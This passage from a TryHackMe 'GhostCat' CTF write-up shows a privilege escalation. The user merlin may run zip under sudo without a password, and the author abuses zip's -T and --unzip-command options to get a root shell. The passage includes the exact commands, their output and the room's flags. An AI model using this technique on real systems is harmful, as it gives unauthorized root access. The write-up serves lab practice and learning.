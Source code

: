   ```
  merlin@ubuntu:~$ sudo -l
  Matching Defaults entries for merlin on ubuntu:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
  
  User merlin may run the following commands on ubuntu:
      (root : root) NOPASSWD: /usr/bin/zip
  ```
  
- That's it, zip is our way to root since we can run it with sudo privileges without needing a password. You can find the commands on how to escalate on [GTFOBins](https://gtfobins.github.io/gtfobins/zip/) but I used a different method, both methods will work and they do the exact same thing.

- This was my approach. First, I created a simple shell script and made it executable.

  ```
  merlin@ubuntu:~$ echo 'sh' > shell.sh
  merlin@ubuntu:~$ chmod +x shell.sh
  ```

- Now since I have shell, I abused zip’s `-T` and `--unzip-command` options to execute my shell. The `-T` flag is for testing the archive, and `--unzip-command="sh #"` tells zip to use sh to extract files. Since the command runs with sudo, it gives me a root shell.

  ```
  merlin@ubuntu:~$ sudo zip exploit.zip shell.sh -T --unzip-command="sh #"
  adding: shell.sh (stored 0%)
  # whoami
  root
  # cat /root/root.txt
  THM{Z1P_1S_FAKE}
  ```

- CTF done, cya in the next one! 💋

---

## 🏁 Flags

- **User Flag**: `THM{GhostCat_1s_so_cr4sy}`
- **Root Flag**: `THM{Z1P_1S_FAKE}`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Finding the right exploit as always. AjpShooter exploit is so sick ngl!`

- What did I learn?
  `New exploits and a new way of privilege escalation. Escalating to root with ZIP is awesome!`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
